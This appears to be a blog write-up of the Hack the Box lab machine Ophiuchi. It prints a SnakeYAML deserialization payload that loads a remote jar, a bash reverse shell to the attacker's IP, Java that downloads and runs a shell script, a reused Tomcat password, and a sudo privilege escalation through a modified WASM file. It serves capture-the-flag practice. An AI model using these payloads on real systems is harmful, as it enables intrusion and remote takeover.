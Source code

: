 +++
author = "Nick"
categories = ["hack the box", "medium", "golang", "wasm", "YAML", "PHP Deserialization"]
date = 2021-07-03T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/06/opi.png"
slug = "hack-the-box-ophiuchi"
summary = "Welcome back everyone! Today's write-up is for the Hack the Box machine - Ophiuchi. This is listed as a medium Linux machine. Let's get to it! "
tags = ["hack the box", "medium", "golang", "wasm", "YAML", "PHP Deserialization"]
title = "Hack the Box - Ophiuchi"

+++


Welcome back everyone! Today's write-up is for the Hack the Box machine - Ophiuchi. This is listed as a medium Linux machine. Let's get to it!

As usual, we kick it off with an nmap scan. Here are our results:

```
Nmap scan report for 10.10.10.227
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Well, we don't have many options at first glance, let's take a look at what's on 8080. When we load the page, we are greeted with a YAML parser.

![](/images/2021/06/image-47.png)

When we try to use the function, it tells us that the function has been shutdown due to security reasons. Broken YAML parsing is a pretty [well documented](https://www.google.com/search?q=online+yaml+parser+exploit&oq=online+yaml+parser+exploit&aqs=chrome..69i57.4172j0j1&sourceid=chrome&ie=UTF-8) exploit. Even though the site is telling us it's disabled the functionality, we can still test this by setting up a listener with `netcat` or `SimpleHTTPServer` and trying to catch an incoming request.

Heres our PoC code:
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.101/"]
  ]]
]
```

Now we can just setup a listener.

Command:
`nc -lvnp 80`

We enter our code into the parser and check our lisener.

![](/images/2021/06/image-48.png)

Sure enough, we have a call back. Now we can work to weaponize it. [This repo](https://github.com/artsploit/yaml-payload) in particular helps us do that quite nicely. First we'll clone the repo.

Command:
`git clone https://github.com/artsploit/yaml-payload`

Now we have to put our reverse shell code into the `AwesomeScriptEngineFactory.java` file. In this case, I used the basic `Bash` shell:

`bash -i >& /dev/tcp/10.10.14.101/6969 0>&1`

Now we just need to compile it into a `.jar` and call it from the YAML parser.

Command:
```
cd yaml-payload
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
Now we can host the file with `SimpleHTTPServer`.

Command:
`python -m SimpleHTTPServer`

Next, we spin up a `netcat` listener on port 6969 to catch the incoming connection.

Command:
`nc -lvnp 6969`

Now that we've done all the steps as per the Git repo, we can put our malicious YAML into the parser and see if it send us a shell back. Our total payload looks like this:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.101/yaml-payload.jar"]
  ]]
]
```

We see the `.jar` file being called, but we're not catching a shell. There could be a few reasons why we're not getting one. One of the easiest things to test is if our raw bash command isn't being executed. So to test this we'll just put our command into a small shell script, and have the server download and execute the script.

![](/images/2021/06/opi_shell.gif)

That methodology worked! So the code we ended up using inside our `.java` was:

```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl 10.10.14.101/s.sh -o /tmp/s.sh");
            // not this: Runtime.getRuntime().exec("curl 10.10.14.101/s.sh -o /tmp/s.sh && bash /tmp/s.sh");
            Runtime.getRuntime().exec("bash /tmp/s.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Now that we have a foothold, we can start enumerating in order to escalate. We don't have the ability to run scripts, so `linpeas.sh` was out. After a grueling amount of time parsing this incredibly unstable machine by hand, we find some creds in the default `tomcat-user` file.

![](/images/2021/06/image-49.png)

Great, now we have a user `admin` and the password `whythereisalimit`. Now we can try to use these credentials to `SSH` into the machine.

![](/images/2021/06/image-50.png)

We are able to re-use those credentials and log in! We snag our `user.txt` file and start enumerating for a path to root. We check our `sudo -l` options and we have an item listed.

![](/images/2021/06/image-51.png)

We have this `index.go` file listed.

![](/images/2021/06/image-52.png)

We see something right off the bat, the path for `deploy.sh` is not tight, meaning we can have it call any script called deploy.sh. The catch here is that we can only execute this portion of the code if the value of `f` is equal to `1`. The application is reading the `main.wasm` file and checking the values. We need to modify this file in order to make `f` equal `1`. In order to do that, we need to take the `main.wasm` file and convert it to a `.wat` file. This is essentially the instructions for the interactions of the library. First, let's download the `main.wasm` file to our system.

Command:
`cat main.wasm | nc 10.10.14.101 6969`

Now we cat it on our system.

Command:
`nc -lvnp 6969 > main.wasm`

With that file on our machine, we need to convert it to a `.wat`. There some good information on this process [here](https://developer.mozilla.org/en-US/docs/WebAssembly/Text_format_to_wasm). We can leverage the tool listed from the Github to convert the file.

Commands:
`wget https://github.com/WebAssembly/wabt/releases/download/1.0.23/wabt-1.0.23-ubuntu.tar.gz`
`gunzip -v wabt-1.0.23-ubuntu.tar.gz`
`tar -xf wabt-1.0.23-ubuntu.tar`

Now with the toolset decompressed, we can run `main.wasm` file through to convert it after we copy it to our working directory of choice.

Command:
`./wasm2wat main.wasm -o main.wat`

![](/images/2021/06/image-53.png)

We see the output of the function. On the second line is the `$info` instance, we see that it has an `int 32` value of `0`, we need to change this to `1`. I use `nano` most often.

Command:
`nano main.wat`

![](/images/2021/06/image-54.png)

With that value changed, we need to convert the file back to a `.wasm`.

Command:
`mv main.wasm main.wasm.bak`
`wat2wasm main.wat -o main.wasm`

Now, with our new `main.wasm` file, we need to put it back on the target server. In this case, I just hosted the file via `SimpleHTTPServer` and used `wget` to bring it down to a directory under `/tmp`.

We can now create a `deploy.sh` script in our working directory on the server. Inside the script should be the commands we want to run as `root`. To test the idea, we can simply echo the user with `echo $(id)`. Here's our script

```bash
#!/bin/bash
echo $(id)
```

Then we call the files with `sudo`.

Command:
`sudo -u root /usr/bin/go run /opt/wasm-functions/index.go`

![](/images/2021/06/image-55.png)

Perfect, now we can cat out the contents of the `root.txt` flag!

![](/images/2021/06/image-56.png)

Now, you could do something more persistant here. Copying over your `SSH` key, creating another shell or anything else really.

If this write-up was helpful, send some respect my way: https://app.hackthebox.eu/profile/95635



